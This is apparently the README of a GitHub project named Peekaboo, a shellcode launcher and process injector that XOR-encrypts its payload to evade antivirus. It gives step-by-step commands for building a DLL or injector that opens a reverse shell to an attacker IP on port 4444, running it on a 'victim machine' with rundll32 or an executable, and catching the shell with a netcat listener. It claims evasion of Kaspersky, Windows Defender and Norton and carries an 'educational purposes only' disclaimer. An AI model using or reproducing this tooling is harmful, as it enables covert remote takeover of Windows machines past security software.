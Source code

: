 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `calc.exe` as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 10.9.1.6 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process notepad.exe):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Commander

## TODO
Compile injector in Kali linux

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
